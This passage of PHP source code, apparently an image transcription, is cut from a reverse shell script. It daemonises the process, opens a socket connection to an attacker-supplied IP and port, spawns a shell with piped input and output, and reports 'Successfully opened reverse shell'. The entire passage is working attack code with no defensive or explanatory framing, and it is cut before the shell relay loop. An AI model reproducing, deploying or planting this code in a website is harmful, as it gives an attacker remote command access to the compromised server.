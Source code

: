```php
    // Fork and have the parent process exit
    $pid = pcntl_fork();
    
    if ($pid == -1) {
      printit("ERROR: Can't fork");
      exit(1);
    }
    
    if ($pid) {
      exit(0);  // Parent exits
    }

    // Make the current process a session leader
    // Will only succeed if we forked
    if (posix_setsid() == -1) {
      printit("Error: Can't setsid()");
      exit(1);
    }

    $daemon = 1;
  } else {
    printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
  }

  // Change to a safe directory
  chdir("/");

  // Remove any umask we inherited
  umask(0);

  //
  // Do the reverse shell...
  //

  // Open reverse connection
  $sock = fsockopen($ip, $port, $errno, $errstr, 30);
  if (!$sock) {
    printit("$errstr ($errno)");
    exit(1);
  }

  // Spawn shell process
  $descriptorspec = array(
    0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
    1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
    2 => array("pipe", "w")   // stderr is a pipe that the child will write to
  );

  $process = proc_open($shell, $descriptorspec, $pipes);

  if (!is_resource($process)) {
    printit("ERROR: Can't spawn shell");
    exit(1);
  }

  // Set everything to non-blocking
  // Reason: Occsionally reads will block, even though stream_select tells us they won't
  stream_set_blocking($pipes[0], 0);
  stream_set_blocking($pipes[1], 0);
  stream_set_blocking($pipes[2], 0);
  stream_set_blocking($sock, 0);

  printit("Successfully opened reverse shell to $ip:$port");
```